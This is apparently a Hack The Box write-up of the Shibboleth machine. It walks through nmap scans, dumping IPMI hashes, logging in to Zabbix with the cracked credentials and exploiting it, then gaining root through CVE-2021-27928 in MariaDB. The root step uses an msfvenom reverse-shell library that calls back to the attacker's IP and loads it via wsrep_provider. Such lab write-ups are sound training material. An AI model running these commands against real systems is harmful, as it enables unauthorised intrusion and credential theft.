

# HTB - Shibboleth

#### Ip: 10.10.10.169
#### Name: Shibboleth
#### Difficulty: Medium

----------------------------------------------------------------------



### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -p-  --min-rate 10000 10.10.11.124 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:45 CDT
Nmap scan report for 10.10.11.124
Host is up (0.080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.95 seconds
```

Lets add shibboleth.htb to our `/etc/hosts` file.

Heading to the website we see a site mostly containing anchor tags and lorem ipsum:

site.png

Though interestingly at the very bottom of the page we see it is running Zabbix:

```text
 Powered by enterprise monitoring solutions based on Zabbix & Bare Metal BMC automation 
```

Double checking there were no UDP ports open I found that port 623 was open:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -sU --min-rate 5000 10.10.11.124
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:46 CDT
Nmap scan report for 10.10.11.124
Host is up (0.069s latency).
Not shown: 993 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
623/udp   open   asf-rmcp
21742/udp closed unknown
24511/udp closed unknown
39888/udp closed unknown
40441/udp closed unknown
41446/udp closed unknown
55587/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```

Port 623 is usually IPMI which has known vulnerabilities:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ sudo nmap -sU --script ipmi-version -p 623 shibboleth.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 12:51 CDT
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up (0.068s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0

Nmap done: 1 IP address (1 host up) scanned in 0.32 seconds
```

Cool, it is running version 2 which can let attackers dump passsword hashes. lets try to exploit this in Metasploit:

msf.png

We can now try to crack this hash using JohnTheRipper:

john.png

Nice! We were able to crack the administrator's hash. Unfortunately we still have nowhere to use the credentials, so lets keep enumerating. 

Trying some subdomain fuzzing using wfuzz, we get a few matches:

wfuzz.png

Lets add these 3 to `/etc/hosts` as well:

```text
monitor.shibboleth.htb
monitoring.shibboleth.htb
zabbix.shibboleth.htb
```

I'm especially interested in zabbix.shibboleth.htb because we suspect we're dealing with zabbix from earlier enumeration.

Heading to the site we find a login page:

zabbix.png

Cool, we were able to login with the discovered credentials:

login.png

### Exploitation

At the bottom of the page we see which version number we're dealing with- `Zabbix 5.0.17.`

Searching for exploits I find: https://www.exploit-db.com/exploits/50816

Setting up a NetCat listener and firing the exploit we get a shell back as user zabbix:

shell.png


This exploit is especially cool bevause it links the page where the shell was launched from:

exploit.png

Which is good to know if you ever want to exploit this manually without using a public exploit.

Trying to grab the user.txt flag we get permission denied:

```text
zabbix@shibboleth:/home/ipmi-svc$ cat user.txt 
cat: user.txt: Permission denied
```

There appears to be only one user here and we can `su` using the same password discovered before:

```text
zabbix@shibboleth:/home$ ls
ipmi-svc
zabbix@shibboleth:/home$ su ipmi-svc
Password: 
ipmi-svc@shibboleth:/home$ whoami
ipmi-svc
```

user_flag.png

### Privilege Escalation

Browsing around the target we find an interesting file `/etc/zabbix/zabbix_server.conf`

Which contains database credentials:

creds.png

Using these credentials to login to MySQL we see it is running version 10.3.25

```text
ipmi-svc@shibboleth:~$ mysql -u zabbix -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1170
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

This version has a command execution vulnerability. https://github.com/Al1ex/CVE-2021-27928

To exploit this first we'll need to craft a reverse shell executable using msfvenom:

```text
┌──(ryan㉿kali)-[~/HTB/Shibboleth]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.72 LPORT=1234 -f elf-so -o shell.so

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: shell.so
```

Next we can use Wget and a Python HTTP server to fetch it:

transfer.png

Then we can execute it with:

```text
mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/tmp/shell.so";'
```
And we instantly get a shell back as root, and we can grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

--------------------------------------------
